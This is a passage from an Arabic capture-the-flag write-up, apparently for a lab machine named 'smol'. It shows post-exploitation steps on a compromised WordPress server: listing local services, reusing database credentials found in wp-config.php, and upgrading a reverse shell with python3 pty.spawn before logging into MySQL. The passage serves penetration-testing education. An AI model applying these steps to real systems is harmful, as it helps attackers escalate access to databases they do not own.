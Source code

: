 ## مابعد الاتصال العكسي
### قاعدة البيانات
بعد ما دخلنا على السيرفر خلينا أول شي نشوف إيش الخدمات الموجودة محليا -بعض الخدمات تكون متوفرة بشكل محلي فقط-
```bash
www-data@smol:/var/www/wordpress/wp-admin$ netstat -tl
netstat -tl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN     
www-data@smol:/var/www/wordpress/wp-admin$
```
عندنا سيرفر قاعدة بيانات خلينا ندخل عليه بنفس المعلومات اللي حصلناها في wp-config.php
```
www-data@smol:/var/www/wordpress/wp-admin$ mysql -u wpuser -p 
mysql -u wpuser -p 
Enter password: 
\h
\q
?         (\?) Synonym for `help'.
clear     (\c) Clear the current input statement.
connect   (\r) Reconnect to the server. Optional arguments are db and host.
delimiter (\d) Set statement delimiter.
...
```
### مشكلة في سيرفر قاعدة البيانات!
فيه حاجة غريبة جدا وهي أن السيرفر مايستجيب بشكل صحيح، يعني يوم رسلت \h عشان أطبع قائمة المساعدة ماصار شي، لكن يوم رسلت \q طبع قائمة المساعدة وخرج. حل هذه المشكلة هو تطوير الجلسة -shell upgrade-
شوف [هذي الصفحة](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-1-python-pty-module)
```bash
www-data@smol:/var/www/wordpress/wp-admin$ which python
which python
www-data@smol:/var/www/wordpress/wp-admin$ which python3
which python3
/usr/bin/python3
www-data@smol:/var/www/wordpress/wp-admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<min$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@smol:/var/www/wordpress/wp-admin$ 
```
بهذه الطريقة طورت الاتصال، خلينا نخش على سيرفر قاعدة البيانات مرة ثانية
```bash
www-data@smol:/var/www/wordpress/wp-admin$ mysql -u wpuser -p
mysql -u wpuser -p
Enter password: 

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 140
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```